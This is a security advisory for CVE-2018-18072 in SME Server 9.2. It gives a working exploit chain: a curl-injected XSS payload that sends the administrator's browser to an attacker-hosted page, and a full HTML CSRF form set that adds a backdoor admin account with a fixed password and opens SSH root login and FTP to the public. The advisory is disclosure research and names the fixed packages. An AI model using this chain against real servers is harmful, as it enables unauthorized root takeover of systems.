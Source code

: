 **Vulnerabilities Summary**<br>
The following advisory describes a vulnerability in SME Server 9.2, which lets an unauthenticated attackers perform XSS attack that leads to remote code execution as root. SME Server is a Linux distribution for small and medium enterprises by Koozali foundation.

**CVE**<br>
CVE-2018-18072

**Credit**<br>
An independent security researcher, Karn Ganeshen has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
SME Server 9.2

**Vendor Response**<br>
Fixed in phpki-0.82-17.el6.sme, phpki-0.82-18.el6.sme, phpki-0.82-19.el6.sme

**Vulnerability Details**<br>
Software for the SME Server is packaged using RPM Package Manager (RPM) system. Existing packages from CentOS and other third-party developers are used. The SME Server uses packages from the open source community. Packages are called as contribs. Each contrib adds a specific functionality to the SME server  deployment. Once a contrib is installed, the corresponding Menu or web panel is added to the SME HTTP management portal. The default admin user has access to all contrib Menus. admin can create a new user and assign access of specific web panels (functionality) to the user. The user can, then, view, access and administer only those specific web panels.
The vulnerable components are the “Certificate Management” & “Advanced Web Statistics”, Which are vulnerable to Cross-Site Scripting & Cross-Site Request Forgery.
For the next demonstration , the Attackers IP is 192.168.1.2 and the SME Server IP 192.168.1.109.
The exploitation starts with the contrib – PHPKI – smeserver-phpki. This contrib provides a Certificate Management functionality. The administrator adds new certificates, which the users can download and set up in their browsers. The Certificate Management portal is accessible at https://<SME Server IP>/phpki/.
It should look like this:
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-PHPki-page-300x85.png">

All users can access this without any authentication. The portal provides a Search function where a user can search for existing certificates.

**Exploit**<br>
1) Reflected XSS [Pre-Auth] https://192.168.1.109/phpki/search.php/”>&lt;script>alert(“xss-phpki”)</script> . We can now see that this component is vulnerable to XSS.<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-step1-300x93.png">

Now lets arm the payload: We will inject the following payload: “><script>document.location=”http://192.168.1.2/ssd.html”</script>
Issue the following request: curl ‘https://192.168.1.109/phpki/search.php/”><script>document.location=”http://192.168.1.2/ssd.html”</script>’ –insecure This payload is injected in the back-end (Stored-XSS) and used by another contrib, Awstats.
2) Start a web server on Attacker IP to serve our evil form – ssd.html<br>
```shell
$ sudo python -m SimpleHTTPServer 80 Serving HTTP on 0.0.0.0 port 80
```

3) Stored XSS + Cross-Site Request Forgery The next step in exploitation, targets the web panel – Advanced Web Statistics 7.1 (build 1.983).  This contrib – smeserver-awstats.noarch – provides functionality to monitor web traffic to the  server. The following steps are from Admin point of view.<br>
1+ Admin logs in <br>
2+ Admin accesses Web Statistics -> Show -> Navigation (Full List – urldetail) This is the full list of all page urls accessed, which opens up – https://192.168.1.109/servermanager/cgi-bin/.awstats/awstats.pl config=mycompany.local&lang=auto&output=urldetail <br>
3+ Admin clicks on the entry:

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-admin-access-300x84.png">

4+ This opens a new page about details on this entry.<br>
5+ XSS Payload executes and fetches ssd.html from our server.
Now, on the attackers console:<br>

```shell
[bash-3.2$ sudo python -m SimpleHTTPServer 80
[password:
Serving HTTP on 0.0.0.0 port 80 ...
192.168.1.2 - - [10/9/2018 08:30:23] "GET /ssd.html HTTP/1.1" 200 -
```

The page that the victim will get is:

```HTML
<html>
</html>
<head>
    <title>Evil Form - Add user5 + Set Password + assign panel access - XSS+CSRF</title>
    <script type="text/javascript">
        function exec1() {
            document.getElementById('1').submit();
            setTimeout(exec2, 3000);
        }
        function exec2() {
            document.getElementById('2').submit();
            setTimeout(exec3, 3000);
        }
        function exec3() {
            document.getElementById('3').submit();
            setTimeout(exec4, 3000);
        }
        function exec4() {
            alert("4");
            document.getElementById('4').submit();
        }
        //				window.onbeforeunload=function(){
        //				return	"please	wait";
        //				}
    </script>
</head>
<body onload='exec1()'>
    <!-- Add	new	user	-->
    <form id='1' target="if1" name="badform_1" method="post" action="https://192.168.1.109/server-manager/cgi-bin/useraccounts">
        <input type="hidden" name="page" value="1" />
        <input type="hidden" name="page_stack" value="0" />
        <input type="hidden" name=".id" value="0d41969df339a1a62711edf93f48a673" />
        <input type="hidden" name="acctName" value="user5" />
        <input type="hidden" name="action" value="create" />
        <input type="hidden" name="FirstName" value="user5" />
        <input type="hidden" name="LastName" value="lname" />
        <input type="hidden" name="Dept" value="Main" />
        <input type="hidden" name="Company" value="XYZ+Corporation" />
        <input type="hidden" name="Street" value="123+Main+Street" />
        <input type="hidden" name="City" value="Ottawa" />
        <input type="hidden" name="Phone" value="555-5555" />
        <input type="hidden" name="EmailForward" value="local" />
        <input type="hidden" name="ForwardAddress" value="" />
        <input type="hidden" name="VPNClientAccess" value="no" />
        <input type="hidden" name="groupMemberships" value="admingroup" />
        <input type="hidden" name="Next" value="Add" />
    </form>
    <!-- Set	password	for	new	user	-->
    <form id='2' target="if2" name="badform_2" method="post" action="https://192.168.1.109/server-manager/cgi-bin/useraccounts">
        <input type="hidden" name="page" value="4" />
        <input type="hidden" name="page_stack" value="3" />
        <input type="hidden" name=".id" value="0d41969df339a1a62711edf93f48a673" />
        <input type="hidden" name="acctName" value="user5" />
        <input type="hidden" name="password1" value="SSDpassword@12345" />
        <input type="hidden" name="password2" value="SSDpassword@12345" />
        <input type="hidden" name="Next" value="Save" />
    </form>
    <!-- Assign	panel	access	to	new	user.	More	can	be	added	for	additional	access.-->
    <form id='3' target="if3" name="badform_3" method="post" action="https://192.168.1.109/server-manager/cgi-bin/userpanelaccess">
        <input type="hidden" name="panelAccess" value="remoteuseraccess" />
        <input type="hidden" name="panelAccess" value="viewlogfiles" />
        <input type="hidden" name="panelAccess" value="groups" />
        <input type="hidden" name="panelAccess" value="userpanelaccess" />
        <input type="hidden" name="panelAccess" value="userpanel-password" />
        <input type="hidden" name="panelAccess" value="userpanel-sshkeys" />
        <input type="hidden" name="panelAccess" value="userpanel-useraccounts" />
        <input type="hidden" name="panelAccess" value="userpanel-userbackup" />
        <input type="hidden" name="action" value="Modify" />
        <input type="hidden" name="acct" value="user5" />
        <input type="hidden" name="state" value="performModifyAccess" />
    </form>
    <!-- Change	remote	access	settings	- Open	up	Remote	Access	from	public	Internet	-->
    <form id='4' target="if4" name="badform_4" method="post" action="https://192.168.1.109/server-manager/cgi-bin/remoteaccess">
        <input type="hidden" name="page" value="0" />
        <input type="hidden" name="page_stack" value="" />
        <input type="hidden" name=".id" value="2e7d2cda4ce6b680499d4b2ee8eb7831" />
        <input type="hidden" name="pptpSessions" value="0" />
        <input type="hidden" name="validFromNetwork" value="" />
        <input type="hidden" name="validFromMask" value="" />
        <input type="hidden" name="sshAccess" value="public" />
        <input type="hidden" name="sshPermitRootLogin" value="yes" />
        <input type="hidden" name="sshPasswordAuthentication" value="yes" />
        <input type="hidden" name="sshTCPPort" value="22" />
        <input type="hidden" name="FTPAccess" value="normal" />
        <input type="hidden" name="FTPPasswordLogin" value="public" />
        <input type="hidden" name="Next" value="Save" />
    </form>
    <iframe name="if1" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
    <iframe name="if2" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
    <iframe name="if3" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
    <iframe name="if4" style="display:	hidden=" width="0" height="0" frameborder="0"></iframe>
</body>
```

**This Payload will:**<br>
1+ Add a new user, set password (user5/SSDpassword@12345)<br>
2+ Assign various webpanel access to the new user<br>
* remoteuseraccess
* viewlogfiles
* groups
* userpanelaccess
* userpanel-password
* userpanel-sshkeys
* userpanel-useraccounts
* userpanel-userbackup<br>

3+ Reconfigure network filtering to open SSH/FTP access for all IP sources At this point, the attacker can log in with new user credentials, and has access to various webpanels (functionality) now.

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-user5-panel-300x78.png">

4) Attacker adds shell configuration for this new user – user5 – as follows:<br>
1+ Security -> User Remote Access -> ‘user5’ Modify -> Select ‘/bin/bash’ as Shell Access option –> Save.<br>

<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-user-5-shell-panel-300x123.png">

2+ Attacker SSH in to the SME Server remotely:<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-ssh-300x186.png">

3+ Attacker can execute commands as root using sudo.<br>
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/Sme-Server-etc-shadow-191x300.png">
